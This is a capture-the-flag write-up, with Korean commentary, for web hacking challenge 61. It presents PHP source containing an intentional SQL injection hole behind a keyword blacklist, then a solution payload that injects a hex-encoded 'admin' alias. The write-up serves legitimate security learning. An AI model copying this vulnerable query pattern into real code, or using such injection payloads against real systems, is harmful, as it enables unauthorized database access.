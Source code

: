 # 61

## Problem
```php
<?

echo("<a href=index_lolll.phps>source</a>");

if(!$_GET[id]) $_GET[id]="guest";

echo("<html><head><title>Challenge 61</title></head><body>");

if(eregi("\(|\)|union|select|challenge|from|,|by|\.",$_GET[id])) exit("Access Denied");
if(strlen($_GET[id])>18) exit("Access Denied");

$q=@mysql_fetch_array(mysql_query("select $_GET[id] from c_61 order by id desc limit 1"));

echo("<b>$q[id]</b><br>");

if($q[id]=="admin") @clear();

echo("</body></html>");

?>
```

## Inspection
* `if(!$_GET[id]) $_GET[id]="guest";`
    - 파라미터 `id`가 넘어오지 않았을 때 `guest` 값으로 대체한다.
* `if(eregi("\(|\)|union|select|challenge|from|,|by|\.",$_GET[id])) exit("Access Denied");`
    - 파라미터 `id`에서 `(`, `)`, `union`, `select`, `challenge`, `from`, `,`, `by`, `.`를 거른다.
* `if(strlen($_GET[id])>18) exit("Access Denied");`
    - 파라미터 `id`의 길이가 18 글자 이상이면 거른다.
* `$q=@mysql_fetch_array(mysql_query("select $_GET[id] from c_61 order by id desc limit 1"));`
    - 다음과 같은 쿼리를 요청한다.
    - `id` 기준 내림차순, 1개 row만.
* `echo("<b>$q[id]</b><br>");`
    - `q[id]`가 있으면 출력한다.
* `if($q[id]=="admin") @clear();`
    - `q[id]`가 `admin`이면 통과한다.

## Solution
* `?id=0x61646d696e%20as%20id#`
    - `select 'admin' as id -- `
    - 작은따옴표로 감싼 문자열이 처리가 안되는 것 같기에 이를 hex 값으로 나타냈다. `'admin'` = `0x61646d696e`
    - 길이를 최대한 줄이기 위해 `--`를 `#`으로 대체했다.